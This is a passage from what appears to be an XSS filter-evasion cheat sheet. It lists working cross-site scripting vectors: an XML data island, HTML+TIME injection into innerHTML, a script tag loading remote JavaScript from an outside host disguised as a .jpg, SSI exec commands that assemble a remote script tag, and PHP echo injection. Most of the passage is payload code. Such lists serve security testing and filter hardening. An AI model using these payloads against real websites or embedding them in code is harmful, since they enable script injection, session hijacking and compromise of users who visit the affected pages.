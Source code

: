 ## Locally hosted XML with embedded JavaScript that is generated using an XML data island

This is the same as above but instead referrs to a locally hosted (must be on the same server) XML file that contains your cross site scripting vector. You can see the result here:

```xml
<XML SRC="xsstest.xml" ID=I></XML>  
<SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN>
```

## HTML+TIME in XML

This is how Grey Magic hacked Hotmail and Yahoo\!. This only works in Internet Explorer and Netscape 8.1 in IE rendering engine mode and remember that you need to be between HTML and BODY tags for this to work:

```html
<HTML><BODY>
<?xml:namespace prefix="t" ns="urn:schemas-microsoft-com:time">
<?import namespace="t" implementation="#default#time2">
<t:set attributeName="innerHTML" to="XSS<SCRIPT DEFER>alert("XSS")</SCRIPT>">
</BODY></HTML>
```

## Assuming you can only fit in a few characters and it filters against `.js`

You can rename your JavaScript file to an image as an XSS vector:

```html
<SCRIPT SRC="http://xss.rocks/xss.jpg"></SCRIPT>
```

## SSI (Server Side Includes)

This requires SSI to be installed on the server to use this XSS vector. I probably don't need to mention this, but if you can run commands on the server there are no doubt much more serious issues:

```js
<!--#exec cmd="/bin/echo '<SCR'"--><!--#exec cmd="/bin/echo 'IPT SRC=http://xss.rocks/xss.js></SCRIPT>'"-->
```

## PHP

Requires PHP to be installed on the server to use this XSS vector. Again, if you can run any scripts remotely like this, there are probably much more dire issues:

```php
<? echo('<SCR)';
echo('IPT>alert("XSS")</SCRIPT>'); ?>
```
